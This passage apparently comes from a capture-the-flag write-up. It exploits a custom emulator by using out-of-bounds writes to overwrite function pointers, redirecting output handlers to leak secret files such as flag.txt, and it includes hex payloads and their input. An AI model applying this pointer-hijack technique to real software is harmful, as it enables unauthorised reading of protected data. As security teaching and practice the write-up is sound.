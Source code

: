 All that can be done with:

```nasm
05 00000000 FFFFFEC0   MOV R0,[0xFFFFFEC0]  ; load lower 32 bits of outHEX() address into R0
                                            ; (0x893F0020 - 0x893F0160 == 0xFFFFFEC0)
14 00000000 FFFFFF15   ADD R0,0xFFFFFF15    ; update R0 to point sendSecret() instead
                                            ; (0x893EC4E7 - 0x893EC5D2 == 0xFFFFFF15)
31 FFFFFB3C 00000000   SET FFFFFB3C,R0      ; update outFuncs[0] to point to sendSecret()
                                            ; (0x893F0020 - 0x893F1330) / 4 = 0xFFFFFB3C
14 00000000 FFFFFFE9   ADD R0,FFFFFFE9      ; update R0 to point to FUN_00001337() instead
                                            ; (0x893EC4D0 - 0x893EC4E7) = 0xFFFFFFE9
31 FFFFFB3E 00000000   SET FFFFFB3E,R0      ; update outFuncs[1] to point to FUN_00001337()
                                            ; (0xFFFFFB3E, because config[] is int32 array, we need to step one int64 forward)
```

## Getting 1337.txt

With all that prep, we can try to get the `1337.txt` file which is encoded in the emulator:

```nasm
30 00000002 00000000   SET 2,0              ; set hex mode. OUT will call sendSecret()
40 00000000 00000000   OUT                  ; call sendSecret() - will read and print SECRET_FNAME
F0 00000000 00000000   FINISH
```

Result

```
$ ./app
Enter emulator instructions as hex, ended by \n
05 00000000 FFFFFEC0 14 00000000 FFFFFF15 31 FFFFFB3C 00000000 14 00000000 FFFFFFE9 31 FFFFFB3E 00000000 30 00000002 00000000 40 00000000 00000000 F0 00000000 00000000
```
... but, what follows is:

![](rickroll.webp "")

 No flag though &#128578;

## Getting flag.txt

Let's take an educated guess that the needed file is actually `flag.txt` - and use the `FUN00001337()` to make `sendSecret()` give it to us.

```nasm
30 00000002 00000001   SET 2,1              ; OUT will now call FUN_00001337
04 00000008 67616C66   MOV OUT,67616C66     ; Set OUT register to contain 'galf'
40 00000000 00000000   OUT                  ; call FUN_00001337 - will update SECRET_FNAME to 'flag'
30 00000002 00000000   SET 2,0              ; set hex mode. OUT will call sendSecret()
40 00000000 00000000   OUT                  ; call sendSecret() - will read and print SECRET_FNAME
F0 00000000 00000000   FINISH
```
